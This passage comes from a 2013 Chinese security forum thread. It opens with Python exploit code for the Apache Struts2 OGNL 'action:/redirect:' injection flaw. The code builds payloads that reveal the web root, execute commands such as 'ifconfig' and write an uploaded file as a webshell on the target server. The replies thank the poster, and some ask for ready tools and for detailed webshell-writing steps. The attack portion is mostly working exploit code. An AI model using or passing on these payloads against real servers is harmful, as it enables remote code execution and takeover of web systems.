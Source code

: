 """
getshell_exp = "%%{"
getshell_exp += "#req=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),"
getshell_exp += "#sio=new java.lang.StringBuffer(),"
getshell_exp += "#sio.append(#req.getRealPath('%s')),"
getshell_exp += "#response=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),"
getshell_exp += "#response.println(#sio),"
getshell_exp += "#response.close(),"
getshell_exp += "#fos=new java.io.FileOutputStream(#sio),"
getshell_exp += "#fos.write(#req.getParameter('%s').getBytes()),"
getshell_exp += "#fos.close()}"


def test_simple_poc(url):
    for prefix in ["action:", "redirect:", "redirectAction:"]:
        if bait in urllib.urlopen("{0}?{1}{2}".format(url, prefix, urllib.quote(simple_poc))).read():
            return True
    return False


def test_webroot_exp(url):
    for prefix in ["action:", "redirect:", "redirectAction:"]:
        resp = urllib.urlopen("{0}?{1}{2}".format(url, prefix, urllib.quote(webroot_exp))).read().lower()
        if not resp.startswith("<html>") and not resp.endswith("</html>"):
            return resp


def test_execute_exp(url):
    for prefix in ["action:", "redirect:", "redirectAction:"]:
        resp = urllib.urlopen("{0}?{1}{2}".format(url, prefix, urllib.quote(execute_exp % "'ifconfig'"))).read().lower()
        if not resp.startswith("<html>") and not resp.endswith("</html>"):
            return resp


def test_getshell_exp(url):
    for prefix in ["action:", "redirect:", "redirectAction:"]:
        resp = urllib.urlopen("{0}?{1}{2}".format(url, prefix, urllib.quote(getshell_exp % ("shell.txt", "c"))),
                              data="c=bazinga").read().lower()
        if not resp.startswith("<html>") and not resp.endswith("</html>"):
            return resp
 
18#锄禾哥 ("%</a>&) 白帽子 | 2013-07-18 01:31
看到楼上的python 我都忍不住出来冒泡了。。。。好人一生平安。thank打码。
 
19#dave  白帽子 | 2013-07-18 01:40
哈哈。。谢谢 提示  可以自己写工具了
 
20#hack雪花 (This is a test"></textare) 白帽子 | 2013-07-18 02:03
@dave 求写的发245452134@qq.com
 
21#dave  白帽子 | 2013-07-18 02:25
@hack雪花  已经有现成的工具啦。我只不过当学习。这世界已经有轮子啦。哈哈
 
22#HK骚年  白帽子 | 2013-07-18 04:54
求具体详细利用思路。主要是写马那块的。QQ：498532059
 